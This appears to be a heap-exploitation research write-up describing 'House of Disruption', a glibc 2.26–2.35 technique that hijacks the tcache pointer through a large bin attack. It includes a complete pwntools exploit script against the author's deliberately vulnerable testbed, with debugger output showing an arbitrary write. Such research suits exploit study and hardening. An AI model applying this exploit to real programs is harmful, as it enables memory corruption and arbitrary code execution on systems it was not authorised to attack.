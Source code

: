 # House of Disruption
In this article I will describe a new powerful heap house I crafted which is applicable from glibc versions `2.26` until `2.35` (latest at the moment of writing this article) with the tcache enabled. It's a pretty simple House but quite powerful with what you can do with it!

The main idea behind house of disruption is: by performing a simple large bin attack (which until 2.35 is unpatched) against the `tcache` pointer, we can fool glibc into thinking that the `tcache` is located somewhere else on the heap. By crafting a fake tcache inside the large bin which the `tcache` pointer is pointing to after the large bin attack, we can easily make `malloc` to return arbitrary chunks.

The only requirements for the house of disruption is a libc leak which we need inorder to locate the `tcache` pointer in memory and the ability to perform a large bin attack. Quite minimalistic isn't it?

# Dive into malloc internals
For the house of disruption actually we just need to understand how tcache returns free tcache chunks back to the program.
```c
static __always_inline void *
tcache_get (size_t tc_idx)
{
  tcache_entry *e = tcache->entries[tc_idx];
  if (__glibc_unlikely (!aligned_OK (e)))
    malloc_printerr ("malloc(): unaligned tcache chunk detected");
  tcache->entries[tc_idx] = REVEAL_PTR (e->next);
  --(tcache->counts[tc_idx]);
  e->key = 0;
  return (void *) e;
}
```
And this is actually pretty interesting. When you ask from `ptmalloc2` a chunk in the tcache range (from `0x0` to `0x410` bytes), `ptmalloc2` will try to see if there is an available free tcache chunk. If it finds one it will call `tcache_get` to fetch it from the tcache and will return it back to the program.

The most important thing you have to consider is how ptmalloc2 locates the tcache on the heap. And as you can see above it uses a global variable named `tcache`. This variable will be our target for our large bin attack later.
```c
static __thread tcache_perthread_struct *tcache = NULL;
```
`tcache` is a per thread global variable and hence it is stored in the thread local storage of each thread. But for our single threaded program you can see it as a simple global variable which is **writable**.

Because ptmalloc2 blindly trusts this `tcache` pointer, if you are able to modify him to point to a place which you control, by crafting a fake tcache in that place you will be able eventually to make ptmalloc2 to return arbitrary chunks back to the program!

In our PoC the only place we can craft a fake tcache is on the heap and so we will perform a large bin attack to put a heap address into the `tcache` pointer.

# Proof of Concept
For a proof of concept I will use the same testbed I used for another House that I made. You can find it ![here](https://github.com/un1c0rn-the-pwnie/FSOPAgain/blob/main/poc3/house_of_error.c). If you remove the theme it's actually a simple testbed. In that testbed you have the ability to allocate chunks with a max size of `0x1000` bytes and you can free them if you wish. The bug in my testbed is a heap overflow of `40` bytes.

# Exploit for House of disruption.
```python
from pwn import *

elf = context.binary = ELF('house_of_disruption_patched', checksec = False)
libc = ELF('libc.so.6', checksec = False)

def start():
    if args.GDB:
        return gdb.debug(elf.path)
    else:
        return process(elf.path)

free_positions = [0,]*8

def select_option(option):
    io.sendlineafter(b'> ', str(option).encode())

def adjust_size(chunk_size): # copy pasted from HeapLABs ;)
    return (chunk_size & ~0x0f) - 8

def lock_position():
    for i in range(8):
        if free_positions[i] == 0:
            free_positions[i] = 1
            return i
    return -1

def unlock_position(pos):
    free_positions[pos] = 0
    
def malloc(size, contents):
    select_option(option = 1)
    io.sendlineafter(b'> ', hex(adjust_size(size)).encode())
    io.sendlineafter(b'> ', contents)
    return lock_position()

def free(index):
    select_option(option = 2)
    io.sendlineafter(b': ', str(index).encode())
    unlock_position(index)
    
def largebin_offset(address):
    return address - 0x20

def largebin_attack(target, fake_tcache_contents):
    largebin_target = largebin_offset(target)
    
    chunk_A = malloc(size = 0x820, contents=fake_tcache_contents) # after our large bin attack our new tcache will be here.
    chunk_B = malloc(size=0x70, contents=b'useful chunk') # this will take a guard chunk role also.
    chunk_C = malloc(size = 0x830, contents=b'Overflow me I will give you arbitrary chunks of many sizes!')
    chunk_guard = malloc(size = 0x40, contents=b'guard chunk')
    
    # Initiate our large bin attack.
    free(chunk_C) # free the biggest large chunk.
    
    # currently chunk 0x830 is linked in unsortedbin list, let's sort it to large bin list.
    sorter_chunk = malloc(size=0x840, contents=b'blah blah')
    free(chunk_A) # free the smallest large chunk.
    
    free(chunk_B) # we free this chunk inorder to overflow to chunk_C and hijack bk_nextsize pointer.
    
    chunk_B = malloc(size=0x70, contents=b'A'*0x60 + p64(0x0) + p64(0x830) + p64(0x0) + p64(0x0) + p64(0x0) + p64(largebin_target))
    # because we are sending also a newline we have to discard some output. Newline issues -.-
    io.recvuntil(b'Sorry you are not allowed to leave, you are my slave.\n')
    
    sorter_chunk = malloc(size=0x840, contents=b'blah blah') # now tcache must point back to our chunk_A!

def house_of_disruption():
    tcache_ref = libc.address - 0x2908
    
    # I will choose default_overflow_region as my target, you can choose any targets you like. Try to get a shell if you can ;)
    '''
        2a6:1530│       0x7faddbc4a530 (program_invocation_short_name) —▸ 0x7fff07c5ee08 ◂— 'house_of_disruption_patched'
        2a7:1538│       0x7faddbc4a538 (program_invocation_name) —▸ 0x7fff07c5eded ◂— '/home/un1c0rn/house_of_disruption/house_of_disruption_patched'
        2a8:1540│       0x7faddbc4a540 (default_overflow_region) ◂— 0x0
        2a9:1548│       0x7faddbc4a548 (default_overflow_region+8) ◂— 0x1
        2aa:1550│       0x7faddbc4a550 (default_overflow_region+16) ◂— 0x2
    '''
    
    target = libc.sym.default_overflow_region  # any target we like but we need it to be aligned to avoid tcache_get unaligned tcache mitigation!
    contents = p64(0xdeadbeef) + p64(0xcafebabe) + p64(0xbadc0de)

    # After our large bin attack our small large bin which now is our tcache will look like this:
    '''
        0x55ed6a059290:	0x0000000000000000	0x0000000000000821
        0x55ed6a0592a0:	0x00007f9ce80d41d0	0x000055ed6a059b20
        0x55ed6a0592b0:	0x000055ed6a059b20	0x00007f9ce7ede6d8
        0x55ed6a0592c0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a0592d0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a0592e0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a0592f0:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059300:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059310:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059320:	0x00000000deadbeef	0x00000000deadbeef
        0x55ed6a059330:	0x00000000deadbeef	0x00000000deadbeef
    '''
    
    # Our new tcache will start from 0x55ed6a059290.
    # So we can not control the first 6 qwords. (Except if we perform another heap overflow from an above crafted chunk or with a write after free). But it doesn't matter the top of the tcache is allocated for the counts.
    # Filling our small large bin with a special crafted fake tcache we can supply fake tcache bins and allocate whatever we want!
    
    '''
/* offset      |    size */  type = struct tcache_perthread_struct {
/* 0x0000      |  0x0080 */    uint16_t counts[64];
/* 0x0080      |  0x0200 */    tcache_entry *entries[64];

                            /* total size (bytes):  640 */
                            }
    '''
    
    fake_tcache_counts = p64(0)*4 + p64(0xffffffffffffffff)*10 # first 4 qwords are used for fd/bk/bk_nextsize/fd_nextsize and after our large bin attack whatever we place there will be overwritten
    fake_tcache_bins   = p64(target - 0x10)*0x80 # spray our target because I'm lazy to calculate simple stuff.
    
    fake_tcache = fake_tcache_counts + fake_tcache_bins
    
    largebin_attack(tcache_ref, fake_tcache)
    malloc(size = 0xe0, contents=p64(0x0)*2 + contents) # allocate our target and overwrite it with our contents :)
    
    success(f'See the contents of your target in the debugger ;)')
    success(f'Quick reminder your selected target was: 0x{target:02x}')
    
io = start()

io.recvuntil(b'@ The ASLR god gifted you a present for your adventure: ') # skip blah blah
puts_leak = int(io.recvline(keepends = False), base = 16)
success(f'puts @ 0x{puts_leak:02x}')

libc.address = puts_leak - libc.sym.puts
success(f'libc @ 0x{libc.address:02x}')

house_of_disruption()

io.interactive()
```
Result:
```python
$ python3 exploit.py GDB
[+] puts @ 0x7ffbf8091e80
[+] libc @ 0x7ffbf8018000
[+] See the contents of your target in the debugger ;)
[+] Quick reminder your selected target was: 0x7ffbf820b540
[*] Switching to interactive mode

Press 1 to add a new pwnie land
Press 2 to burn your pwnie land
> $  
pwndbg> tel 0x7ffbf820b540
00:0000│  0x7ffbf820b540 (default_overflow_region) ◂— 0xdeadbeef
01:0008│  0x7ffbf820b548 (default_overflow_region+8) ◂— 0xcafebabe
02:0010│  0x7ffbf820b550 (default_overflow_region+16) ◂— 0xbadc0de
03:0018│  0x7ffbf820b558 (default_overflow_region+24) —▸ 0x7ffbf821000a (__pthread_keys+10314) ◂— 0x0
04:0020│  0x7ffbf820b560 (default_overflow_region+32) ◂— 0x0
05:0028│  0x7ffbf820b568 (default_overflow_region+40) ◂— 0xffffffffffffffff

```
